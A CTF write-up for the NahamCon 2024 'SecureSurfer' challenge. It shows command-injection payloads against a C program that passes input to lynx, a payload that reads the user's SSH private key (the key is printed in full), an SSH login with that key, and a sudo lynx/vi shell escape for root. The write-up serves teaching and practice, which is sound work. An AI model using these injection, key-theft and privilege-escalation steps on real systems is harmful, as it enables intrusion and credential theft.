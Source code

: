```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | SecureSurfer Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: misc
challenge: SecureSurfer
tags: "misc, twh, rce, lpe, privesc"
date: 2024-05-28T00:00:00+00:00
last_update: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>

## SecureSurfer
> Solved by : thewhiteh4t


- we are provided with SSH access and a C source code file
- it is a simple C program which contains some cases and a `surf` function
- surf function passes our input without much input validation to `lynx` a console based browser tool
- 5 options have predefined inputs but in 6th option we can provide our input

```c
    case 6:
                    {
                        char url[1024];
                        printf("Online URL: ");
                        fflush(stdout); 
                        fgets(url, sizeof(url), stdin);
                        url[strcspn(url, "\n")] = 0; // Remove newline character
    
                        if (strstr(url, "https://") == NULL) {
                            printf("\nWe are secure here at the SecureSurfer! You must use https:// !\n");
                        } else {
                            surf(url);
                        }
                    }


    void surf(const char *url) {
        char command[512];
        sprintf(command, "/usr/local/bin/lynx --accept_all_cookies -cache=0 -restrictions=all '%s'", url);
        system(command);
        system("stty sane");
    }
```

- only requirement is that our input should contain `https://`
- we can inject commands through our input by using `$()` and single quotes :

```
'$(id)'#https://
```

![](https://i.imgur.com/65qrdco.png)

- so we have command injection, kind of
- now let’s try to drop to a shell : 


![](https://i.imgur.com/VxLvFJH.png)

- we did get a shell but command output is blank, maybe due to how lynx works or some other reason but we can still explore and home dir of `securesurfer` contains a `.ssh` directory, so we can try to look for `id_rsa`


```
securesurfer@securesurfer:~$ cat .ssh/
authorized_keys  id_ecdsa         id_ecdsa.pub
```

- fortunately with lynx we can read files directly!

```
'$(~/.ssh/id_ecdsa)'#https://
```

```
-----BEGIN EC PRIVATE KEY-----
MHcCAQEEIIDx0ks2B22N69cy8Vyy2VrNPDdhYTQlKWdVFdanIvydoAoGCCqGSM49
AwEHoUQDQgAEJEgkMpKgbm52oJfCbDLXvX1b3ZWE6j+P5tOdrBH5n/aaRwwZqZtp
7C82/VWBuq6RkSRFspGSlqsgJNG4RHQIRA==
-----END EC PRIVATE KEY-----
```

- now we can directly login and skip the browser on login

```
chmod 600 id_ecdsa
ssh -p 31252 securesurfer@challenge.nahamcon.com -i id_ecdsa
```

![](https://i.imgur.com/NxkhvyI.png)



- after looking into lynx for sometime I came across a useful option : 

```
-editor=EDITOR    enable edit mode with specified editor
```

- on the target box `vi` was available so we can run lynx with sudo and vi as our editor and drop into edit mode and try to launch a bash shell
- we also need a local file for the editor

```
touch a
sudo lynx -editor=vi a
```

- after getting inside lynx we need to press `e` to launch edit mode where `vi` takes over
- and now we can simply use the following to get a shell : 

```
:!/bin/bash
```

![](https://i.imgur.com/gKgA9Cc.png)
